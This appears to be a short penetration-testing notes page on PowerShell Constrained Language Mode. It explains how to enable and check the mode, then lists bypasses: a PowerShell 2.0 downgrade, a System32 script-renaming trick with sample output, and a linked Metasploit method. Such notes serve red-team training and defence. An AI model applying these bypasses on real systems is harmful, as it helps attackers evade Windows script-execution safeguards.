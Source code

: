 # CLM

<details>

<summary>What is it? + How to enable?</summary>

* Constrained Language Mode is a PowerShell security restriction enforced by Windows Defender Application Control (WDAC) or Device Guard.&#x20;
* It limits access to certain commands and features, reducing the risk of malicious script execution.

- Run the following command on admin powershell.exe:

```
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
```

</details>

<details>

<summary>Checking CLM</summary>

```
$ExecutionContext.SessionState.LanguageMode
```

* `FullLanguage` → **No restrictions** (default for admin users).
* `RestrictedLanguage` → **Highly restricted**, only allows basic expressions.
* `ConstrainedLanguage` → **Blocks .NET, COM objects, and Reflection**, while allowing most built-in cmdlets.

</details>

<details>

<summary>Bypassing CLM (Powershell Downgrade)</summary>

powershell.exe -Version 2.0

</details>

<details>

<summary>Bypassing CLM (System32 Bypass)</summary>

* From [https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass#system32-bypass](https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass#system32-bypass)
* Path from where your script is being executed needs to contain the string `system32`

```
PS>cat .\test.ps1
$ExecutionContext.SessionState.LanguageMode

PS>.\test.ps1; mv .\test.ps1 system32.ps1; .\system32.ps1
ConstrainedLanguage
FullLanguage
```



</details>

<details>

<summary>Bypass CLM (Metasploit)</summary>

[https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass](https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass)

</details>



